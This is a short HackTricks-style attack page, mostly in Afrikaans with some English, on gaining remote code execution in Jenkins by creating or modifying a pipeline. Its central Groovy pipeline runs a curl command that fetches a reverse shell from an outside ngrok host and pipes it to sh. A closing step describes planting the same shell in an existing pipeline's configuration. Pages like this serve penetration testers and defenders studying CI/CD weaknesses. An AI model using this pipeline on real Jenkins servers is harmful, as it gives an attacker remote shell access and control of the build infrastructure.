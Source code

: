 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Skep 'n nuwe Pyplyn

In "Nuwe Item" (toeganklik in `/view/all/newJob`) kies **Pyplyn:**

![](<../../images/image (235).png>)

In die **Pyplyn afdeling** skryf die **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![](<../../images/image (228).png>)

## Modifying a Pipeline

As jy toegang het tot die konfigurasie-lêer van 'n sekere geconfigureerde pyplyn, kan jy dit eenvoudig **wysig deur jou omgekeerde skulp by te voeg** en dit dan uitvoer of wag totdat dit uitgevoer word.

{{#include ../../banners/hacktricks-training.md}}
